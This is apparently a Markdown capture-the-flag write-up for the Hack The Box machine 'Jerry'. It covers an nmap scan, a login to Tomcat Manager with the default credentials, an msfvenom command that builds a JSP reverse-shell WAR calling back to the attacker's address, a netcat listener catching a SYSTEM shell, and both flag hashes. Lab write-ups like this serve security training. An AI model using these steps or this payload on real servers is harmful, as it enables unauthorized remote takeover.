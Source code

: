 ```yaml
---
layout: post
title: Jerry
tags: [OSCP, Writeup, Windows, Arbitrary File Upload, Web, File Misconfiguration]
description: "Jerry write-up"
---
```


![Jerry logo](/assets/imgs/jerry/jerry.png)

### This is an easy windows box

## Tools used

------

- nmap


## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA jerry 10.10.10.95 -v -Pn

8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

Here’s what nmap teaches us :

- port 8080 (HTTP) - Apache Tomcat 7.0.88



![<BOX> logo](/assets/imgs/jerry/tomcat_interface.PNG)

## Exploit

------

Click "Manager App", try default credentials :

tomcat:s3cret

![<BOX> logo](/assets/imgs/jerry/connected.PNG)

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=1234 -f war > shell.war
Payload size: 1093 bytes
Final size of war file: 1093 bytes
```

Upload the war file :

![<BOX> logo](/assets/imgs/jerry/war_deploy.PNG)

Start a nc listener :

```
nc -lvp 1234
```

Click on the '/shell' button, I'm redirected to this URL :

```
http://10.10.10.95:8080/shell/
```

Go see the listener :

```
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.95: inverse host lookup failed: Unknown host
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

And I'm already nt authority\system ! Now go read the flags, there both on the administrator desktop in one file :

```
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,602,649,088 bytes free
```

## Flags

------

### User.txt

```
7004dbcef0f854e0fb401875f26ebd00
```

### Root.txt

```
04a8b36e1545a455393d067e772fe90e
```